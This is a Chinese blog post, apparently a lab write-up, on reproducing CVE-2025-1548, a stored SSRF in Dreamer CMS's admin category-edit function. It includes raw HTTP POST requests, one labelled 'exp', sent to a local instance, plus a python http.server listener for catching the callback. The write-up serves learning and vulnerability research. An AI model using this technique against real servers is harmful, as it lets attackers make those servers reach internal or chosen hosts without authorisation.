# 从CVE-2025-1548 学习图像上传功能挖掘之SSRF-先知社区

> **来源**: https://xz.aliyun.com/news/17028  
> **文章ID**: 17028

---

# 从CVE-2025-1548 学习图像上传功能挖掘之SSRF

## 前言

**文章中涉及的敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担。**

## 环境搭建

这个环境搭建了好久，问题出现得我都认为好笑，帮大家避个坑，首先就是数据库

这个就很正常

导入 sql 文件就 ok 了

静态目录，这个需要你寻找



首先解压后放在其他地方，然后关注配置文件



这个一定要加上最后的/，不然一直报错

然后环境搭建不成功

自己还需要修改一下其他的地方



还有一些细节查看  
<http://cms.iteachyou.cc/article/07d10ba665644d40ba558b0fe3d4831f>

## 漏洞寻找

首先我们需要明白一些常见的 ssrf 的场景，经常挖掘 src 的对这些场景都见怪不怪了

参考<https://developer.aliyun.com/article/1224818>

1.社交分享功能：获取超链接的标题等内容进行显示  
2.转码服务：通过 URL 地址把原地址的网页内容调优使其适合手机屏幕浏览  
3.在线翻译：给网址翻译对应网页的内容  
4.图片加载/下载：例如富文本编辑器中的点击下载图片到本地；通过 URL 地址加载或下载图片  
5.图片/文章收藏功能：主要其会取 URL 地址中 title 以及文本的内容作为显示以求一个好的用具体验  
6.云服务厂商：它会远程执行一些命令来判断网站是否存活等，所以如果可以捕获相应的信息，就可以进行 ssrf 测试  
7.网站采集，网站抓取的地方：一些网站会针对你输入的 url 进行一些信息采集工作  
8.数据库内置功能：数据库的比如 mongodb 的 copyDatabase 函数  
9.邮件系统：比如接收邮件服务器地址  
10.编码处理, 属性信息处理，文件处理：比如 ffpmg，ImageMagick，docx，pdf，xml 处理器等  
11.未公开的 api 实现以及其他扩展调用 URL 的功能：可以利用 google 语法加上这些关键字去寻找 SSRF 漏洞  
一些的 url 中的关键字：share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain……  
12.从远程服务器请求资源（upload from url 如 discuz！；import & expost rss feed 如 web blog；使用了 xml 引擎对象的地方如 wordpress xmlrpc.php）

配合黑盒挖掘我们看看

先观察功能点


首先我们根据漏洞点，图片无疑是我们最佳的选择，这里一般什么地方会出现我们可以控制的图片

在项目管理处



有编辑功能，很可能存在和图片相关的地方

编辑栏目处



可以上传图片，不过这个单纯上传，并不能造成 ssrf

是需要解析我们的标签的地方



这个就是非常非常常见的一个 SSRF 的漏洞点

这里尝试一下传入我们的 html 的代码

```
POST /admin/category/edit HTTP/1.1
Host: 127.0.0.1:7897
Content-Length: 3213
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:7897
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryw4f8PyQ1mC6uVTOH
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:7897/admin/category/toEdit?id=4e1c58e65fa9423482cf1a29a6ef629b
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; PUBLICCMS_ADMIN=1_6c1a761a-4f04-4c9a-85b9-b23cfd4a95fb; bjui_theme=blue; dreamer-cms-s=122efbfc-6a6a-4ecc-9df3-f5beb0d3d823
Connection: keep-alive

------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="id"

4e1c58e65fa9423482cf1a29a6ef629b
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="parentId"

-1
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="level"

1
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="imagePath"

20250224/69d6a1bc61bf45fcab9c39c57db955ce.png
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="defaultEditor"

md
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="mdContent"


------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="htmlContent"

<p></p>
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="cnname"

框架介绍
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="enname"

kuangjiajieshao
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="formId"

c17ddcad9fb149a6bf90f7bba0e0696b
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="linkTarget"

1
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="pageSize"

20
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="description"

Dreamer CMS 梦想家内容发布系统是国内首款java开发的内容发布系统，采用最流行的springboot+thymeleaf框架搭建，灵活小巧，配置简单。
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="isShow"

1
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="isInput"

0
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="catModel"

1
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="visitUrl"

framework
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="coverTemp"

/index_article.html
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="listTemp"


------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="articleTemp"


------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="linkUrl"

<p></p>
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="ext01"


------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="ext02"


------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="ext03"


------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="ext04"


------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="ext05"


------WebKitFormBoundaryw4f8PyQ1mC6uVTOH
Content-Disposition: form-data; name="editorValue"

<p></p>
------WebKitFormBoundaryw4f8PyQ1mC6uVTOH--

```

保存后，我们自己开启一个监听

```
python -m http.server 2333
```

然后发现没有访问

但是先不要放弃



这样尝试一下，估计可以访问，然后再次尝试

还是没有，都准备放弃了来着，然后再次点进去的时候发现



已经有访问记录了

其实刚刚的两种方法都是可以的，只不过触发条件不是立即执行而已，需要我们自己再次去访问编辑界面

## 验证漏洞

为了刚刚的可行性，我们可以自己再次验证

首先还是一样的，不过这次我们换一个端口



然后再次访问这个页面



得到了响应

我们验证第一种方法

换一个 2335 端口

exp

```
POST /admin/category/edit HTTP/1.1
Host: 127.0.0.1:7897
Content-Length: 3171
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:7897
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBmfXBA73yBGmb8ek
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:7897/admin/category/toEdit?id=4e1c58e65fa9423482cf1a29a6ef629b
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; PUBLICCMS_ADMIN=1_6c1a761a-4f04-4c9a-85b9-b23cfd4a95fb; bjui_theme=blue; dreamer-cms-s=ed094132-ec07-40b4-a312-ce35cfc6e49f
Connection: keep-alive

------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="id"

4e1c58e65fa9423482cf1a29a6ef629b
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="parentId"

-1
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="level"

1
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="imagePath"

20250224/69d6a1bc61bf45fcab9c39c57db955ce.png
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="defaultEditor"

md
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="mdContent"


------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="htmlContent"

<p></p>
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="cnname"

框架介绍
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="enname"

kuangjiajieshao
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="formId"

c17ddcad9fb149a6bf90f7bba0e0696b
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="linkTarget"

1
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="pageSize"

20
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="description"

Dreamer CMS 梦想家内容发布系统是国内首款java开发的内容发布系统，采用最流行的springboot+thymeleaf框架搭建，灵活小巧，配置简单。
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="isShow"

1
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="isInput"

0
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="catModel"

1
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="visitUrl"

framework
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="coverTemp"

/index_article.html
------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="listTemp"


------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="articleTemp"


------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="linkUrl"


------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="ext01"


------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="ext02"


------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="ext03"


------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="ext04"


------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="ext05"


------WebKitFormBoundaryBmfXBA73yBGmb8ek
Content-Disposition: form-data; name="editorValue"

<p></p>
------WebKitFormBoundaryBmfXBA73yBGmb8ek--

```



也是一样的效果

## 举一反三

当然我们只需要再次寻找相同的场景，再次去寻找了一下，发现了一样的差不多的场景



点进去我们发现还可以在栏目编辑文章

